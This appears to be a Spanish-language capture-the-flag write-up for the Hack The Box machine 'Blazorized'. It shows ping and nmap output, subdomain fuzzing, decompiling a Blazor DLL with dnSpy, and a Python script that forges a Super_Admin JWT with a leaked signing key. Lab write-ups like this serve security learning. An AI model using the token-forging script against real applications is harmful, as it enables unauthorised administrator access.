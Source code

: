 #ActiveDirectory #medium #windows 
### Ping

```python
ping -c 1 10.10.11.22
PING 10.10.11.22 (10.10.11.22) 56(84) bytes of data.
64 bytes from 10.10.11.22: icmp_seq=1 ttl=127 time=366 ms

--- 10.10.11.22 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 365.816/365.816/365.816/0.000 ms
```

### TTL = 127 - Windows

### nmap

```python
Not shown: 65514 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://blazorized.htb
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1115.00; RC0+
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-07-05T02:37:01
|_Not valid after:  2054-07-05T02:37:01
|_ssl-date: 2024-07-05T02:41:11+00:00; -1s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.22\BLAZORIZED: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.22\BLAZORIZED: 
|     Instance name: BLAZORIZED
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|     TCP port: 1433
|_    Clustered: false
3268/tcp  open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49776/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1115.00; RC0+
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-07-05T02:37:01
|_Not valid after:  2054-07-05T02:37:01
|_ssl-date: 2024-07-05T02:41:11+00:00; -1s from scanner time.
| ms-sql-info: 
|   10.10.11.22:49776: 
|     Version: 
|       name: Microsoft SQL Server 2022 RC0+
|       number: 16.00.1115.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RC0
|       Post-SP patches applied: true
|_    TCP port: 49776
| ms-sql-ntlm-info: 
|   10.10.11.22:49776: 
|     Target_Name: BLAZORIZED
|     NetBIOS_Domain_Name: BLAZORIZED
|     NetBIOS_Computer_Name: DC1
|     DNS_Domain_Name: blazorized.htb
|     DNS_Computer_Name: DC1.blazorized.htb
|     DNS_Tree_Name: blazorized.htb
|_    Product_Version: 10.0.17763
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-05T02:41:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.66 seconds
```

### Enumeración del puerto 80 (http)
en la enumeración web podemos ver blazorized
![[Pasted image 20240704224625.png]]

`api`
al intentar enumerar la web en busca de subdominios podemos ver que al hacer clic en `Check for Updates` podemos ver que esta haciendo referencia a una `api` determinada
![[Pasted image 20240704225000.png]]

`/etc/hosts`
agregamos estas rutas a nuestro archivo `hosts` para poder enumerarlas
![[Pasted image 20240704225228.png]]

### XSS en blazorized
otra cosa que conseguí fue una `CVE` [XXS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown) he intentado esto pero no he podido conseguir mucha cosa. esperaba obtener una cookie o algo pero por el momento no tenemos nada
![[Pasted image 20240704225640.png]]

### Fuzzing con wfuzz
conseguí el subdominio de `admin` así que lo vamos a agregar el archivo `hosts` para seguir enumerando
![[Pasted image 20240704230120.png]]

### Enumeración del puerto 80 (http)
después de intentar un montón de cosas aquí no tenemos aun un vector claro
![[Pasted image 20240704230403.png]]

`Archivos DLL interesantes del marco Blazor`
Una cosa interesante de este sitio web fue la gran cantidad de archivos DLL. Después de un tiempo probando sttuf, decidí descargar algunas DLL para probar ingeniería inversa. 
![[Pasted image 20240704231037.png]]

`Descargué Blazorized.Helpers.dll desde` [aqui](http://blazorized.htb/_framework/Blazorized.Helpers.dll) 
![[Pasted image 20240704234037.png]]

### dnSpy
para este paso vamos a necesitar una maquina Windows ya que la herramienta dnSpy es para Windows. sin embargo existen maneras de usarla en Kali. puedes investigar esta opción
![[Pasted image 20240705003628.png]]

`Token`
con esta información podremos crear nuestro propio token para acceder como Administrador en blazorized. Puedes usar jwt.io, o en mi caso hice un script en Python:
![[Pasted image 20240705003707.png]]
![[Pasted image 20240705003826.png]]

### script
con este script usando la sintax que hemos obtenido del anali
```python
import jwt
import datetime
import pytz

# Created by 3ky, enjoy :)
jwtSymmetricSecurityKey = "8697800004ee25fc33436978ab6e2ed6ee1a97da699a53a53d96cc4d08519e185d14727ca18728bf1efcde454eea6f65b8d"
issuer = "http://api.blazorized.htb"
apiAudience = "http://api.blazorized.htb"
adminDashboardAudience = "http://admin.blazorized.htb"
superAdminEmailClaimValue = "superadmin@blazorized.htb"
superAdminRoleClaimValue = "Super_Admin"

def get_signing_credentials() -> str:
    try:
        return jwtSymmetricSecurityKey
    except Exception as e:
        raise e

def generate_super_admin_jwt(expiration_duration_in_seconds: int = 60) -> str:
    try:
        claims = {
            "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": superAdminEmailClaimValue,
            "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": superAdminRoleClaimValue,
            "iss": issuer,
            "aud": adminDashboardAudience,
            "exp": datetime.datetime.now(pytz.utc) + datetime.timedelta(seconds=expiration_duration_in_seconds)
        }
        key = get_signing_credentials()
        jwt_token = jwt.encode(claims, key, algorithm="HS512")
        return jwt_token
    except Exception as e:
        raise e

if __name__ == "__main__":
    token = generate_super_admin_jwt()
    print(token)

```


### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
